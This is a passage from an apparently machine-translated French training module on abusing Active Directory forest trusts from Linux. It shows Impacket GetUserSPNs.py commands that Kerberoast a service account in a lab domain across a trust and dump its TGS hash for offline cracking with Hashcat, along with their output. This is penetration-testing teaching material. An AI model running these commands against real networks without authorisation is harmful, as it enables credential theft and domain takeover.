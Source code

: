 Attaquer les approbations de domaine - Abus de confiance entre forêts - à partir de Linux
=========================================================================================

* * * * *

Comme nous l'avons vu dans la section précédente, il est souvent possible d'effectuer un Kerberoast au sein d'une fiducie forestière. Si cela est possible dans l'environnement que nous évaluons, nous pouvons le faire à `GetUserSPNs.py`partir de notre hôte d'attaque Linux. Pour ce faire, nous avons besoin des informations d'identification d'un utilisateur pouvant s'authentifier dans l'autre domaine et spécifier l' `-target-domain`indicateur dans notre commande. En effectuant cela sur le `FREIGHTLOGISTICS.LOCAL`domaine, nous voyons une entrée SPN pour le `mssqlsvc`compte.

Kerberoasting à travers la forêt
--------------------------------

#### Utilisation de GetUserSPNs.py

  Attaquer les approbations de domaine - Abus de confiance entre forêts - à partir de Linux

```
dsgsec@htb[/htb]$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>

```

Réexécuter la commande avec l' `-request`indicateur ajouté nous donne le ticket TGS. Nous pourrions également ajouter `-outputfile <OUTPUT FILE>`la sortie directement dans un fichier sur lequel nous pourrions ensuite retourner et exécuter Hashcat.

#### Utilisation de l'indicateur -request

  Attaquer les approbations de domaine - Abus de confiance entre forêts - à partir de Linux

```
dsgsec@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>

$krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/mssqlsvc*$10<SNIP>

```
